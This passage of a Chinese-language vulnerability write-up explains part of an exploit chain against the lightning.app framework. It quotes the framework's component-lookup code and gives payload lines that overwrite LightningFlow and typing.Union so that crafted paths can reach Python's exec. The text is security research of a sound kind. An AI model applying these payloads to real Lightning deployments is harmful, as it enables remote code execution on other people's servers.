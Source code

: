 最后在_process_api_request中，通过 get_component_by_name(request.name) 并根据request.name的值获取到最终需要执行的类  
  
![](https://mmbiz.qpic.cn/mmbiz_png/3xxicXNlTXL9KDicX20E03RSXotRz5lBRdq8Kv8FgAhgib1aVSodvtv7GdWXVEO4whQpFrz1z9THUib89oK9yjP1jg/640?wx_fmt=png&from=appmsg "")  
### （3）绕过isinstance(child, ComponentTuple):检测  
  
在get_component_by_name中，会对传入的路径进行解析（用.分割），然后使用for循环逐层获取嵌套属性，然后返回最终嵌套的类对象  
```
def get_component_by_name(self, component_name: str) -> Union["LightningFlow", LightningWork]:
    """Returns the instance corresponding to the given component name."""
    from lightning.app.structures import Dict as LightningDict
    from lightning.app.structures import List as LightningList
    from lightning.app.utilities.types import ComponentTuple

    if component_name == "root":
        return self.root
    if not component_name.startswith("root."):
        raise ValueError(f"Invalid component name {component_name}. Name must start with 'root'")

    current = self.root
    for child_name in component_name.split(".")[1:]:
        if isinstance(current, LightningDict):
            child = current[child_name]
        elif isinstance(current, LightningList):
            child = current[int(child_name)]
        else:
            child = getattr(current, child_name, None)
        if not isinstance(child, ComponentTuple):
            raise AttributeError(f"Component '{current.name}' has no child component with name '{child_name}'.")
        current = child  # type: ignore[assignment]
    return current

```  
  
在这里我们构造的路径为root.__init__.__builtins__.exec，在逐层获取嵌套属性会对获取到的属性进行判断，如果为LightningDict则像字典一样使用 current[child_name] 获取，如果为LightningList，则将 child_name 转为整数并使用索引访问 ，否则使用 getattr(current, child_name) 动态获取对象的属性。  
  
但是我们如果自定义的属性的类型肯定不会是LightningDict和LightningList，所以我们需要将其覆盖为普通的dict和list即可。并且后面的还会判断是否为ComponentTuple类型，由于这里的ComponentTuple是在函数中导入的，所以我们没法直接取覆盖ComponentTuple的值  
  
![](https://mmbiz.qpic.cn/mmbiz_png/3xxicXNlTXL9KDicX20E03RSXotRz5lBRdkl0UCzFykaT1LvoCm88Hjq47PAdPDvKcribp67W5ic5glKQO4eFGPkjw/640?wx_fmt=png&from=appmsg "")  
  
这里会检查对象是否属于ComponentTuple元组中的任意一个类型，也就是是否是(LightningFlow, LightningWork, Dict, List)中符合其中之一  
  
还记得前面我们已经OrderedSet修改了__instancecheck__属性使得使用isinstance检查都会返回True，所以这里只需将其中一个类覆盖为OrderedSet即可。这里我们将LightningFlow覆盖为OrderedSet。  
### （4）绕过isinstance(current, LightningDict)检测  
  
在这里还需要注意在红框上面调用了typing.Union，如果直接将LightingFlow覆盖为OrderedSet在这里会报错，所以我们还需要对Union覆盖为普通的list即可  
  
payload:  
```
# 绕过get_component_by_name中的if not isinstance(child, ComponentTuple):
"root['function'].'__globals__'['_sys'].modules['lightning.app'].core.LightningFlow": bypass_isinstance(),
# 对Union覆盖为普通的`list`即可
"root['function'].'__globals__'['_sys'].modules['typing'].Union": list,

```  
  
